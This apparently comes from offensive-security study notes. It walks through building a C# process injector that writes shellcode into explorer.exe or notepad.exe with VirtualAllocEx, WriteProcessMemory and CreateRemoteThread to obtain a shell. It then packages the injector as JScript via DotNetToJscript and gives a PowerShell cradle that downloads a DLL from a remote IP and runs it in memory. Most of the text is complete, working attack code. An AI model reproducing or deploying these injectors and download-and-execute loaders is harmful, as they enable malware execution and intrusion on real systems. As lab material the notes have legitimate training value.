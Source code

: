 ## Visual Studio FTW
We start by creating yet another project in Visual Studio.
We'll once again, choose the ConsoleApp project.

We start by importing our 4 required APIs. For this, we'll be using our friendly neighborhood p/invoke.net 

We'll also state the 2 namespaces needed for the development of our process injector:
```C#
using System;
using System.Runtime.InteropServices;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        
        static void Main(string[] args)
        {
        }
    }
}
```

With the function in place, we can call it, with the following arguments:
1. dwDesiredAccess - PROCESS_ALL_ACCESS -  0x001F0FFF(hex value)
			- this will give us complete access over the explorer.exe process.
2. bInheritHandle - false 
3. dwProcessId - The process ID of explorer.exe

We call the function and put in the arguments:
```c#
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
```

With our channel from one process to another, we must allocate memory with _VirtualAllocEx_
We perform another import, call the function and provide the following arguments:
1. hProcess - process handle of explorer.exe
2. lpAddress - Desired address of allocation (default for API to decide)
3. dwSize - desired allocation
4. flAllocationType - allocation type
5. flProtect - memory protections

We import the function with:
```C#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, 
  uint dwSize, uint flAllocationType, uint flProtect);
```

and call it with:
```C#
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
```

We create a variable for our shellcode and move on to using _WriteProcessMemory_ to copy or shellcode memory space of explorer.exe

The function takes 4 arguments:
1. hProcess - the handle
2. lpBaseddress - newly allocated memory
3. lpBuffer - address of byte array containing the shellcode
4. nSize - size of the shellcode
5. lpNumberOfBytesWritten - location pointer in memory to ouput how much data copied.

We call and invoke the function as follows:
```C#
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
    byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```
```C#
IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```

We call our final API to execute the shellcode:
The _CreateRemoteThread_ function takes 7 arguments:
1. hProcess - process handle
2. lpThreadAttributes - desired security descriptors (set to 0 for default values)
3. dwStackSize - allowed stack size (set to 0 for default values)
4. lpStartAddress - address of the allocated buffer of shellcode
5. lpParameter - variables to be passed to the thread function pointed by the argument(set to 0 as no need for any parameters)
6. dwCreationFlags - flags to include(set to 0)
7. lpThreadid - output variable for thread(set to 0)

We again import and call the function as follows:
```C#
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, 
    uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, 
        IntPtr lpThreadId);
```
```C#
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

Our final code looks like so:
```C#
using System;
using System.Runtime.InteropServices;


namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[591] {
            0xfc,0x48,..,0xff,0xd5 };
                        IntPtr outSize;
            
			WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

We compile the project and execute it to get a shell in explorer.exe:
![exp-exe-sh](../../../Screenshots/exp-exe-sh.png)

## Exercise
To create a jscript file, we use the ExampleAssembly project in DotNetToJscript.
We also use the GetProceessByName method to get process dynamically

```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    public TestClass()
    {
        Process[] localByName = Process.GetProcessesByName("notepad");
		int procid = localByName[0].Id;
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, procid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

        byte[] buf = new byte[641] {
        0xfc,0x48,....,0xff,0xd5 };
        IntPtr outSize;

        WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```

We compile the code into a dll and use DotNetToJscript to create a js file which gets us a shell upon execution.

For the next exercise, we'll first create a dll using the .NET framework with the following code:
```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        public static void runner()
        {
            System.Diagnostics.Process.Start(@"C:\Windows\System32\notepad.exe");
            Process[] localByName = Process.GetProcessesByName("notepad");
            int procId = localByName[0].Id;
            
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, procId);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[674] {
            0xfc,0xe8,....,0xff,0xd5 };
            IntPtr outSize;

            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}

```
We will then compile this into a dll, and use the following powershell code to get it executed:
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.150/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)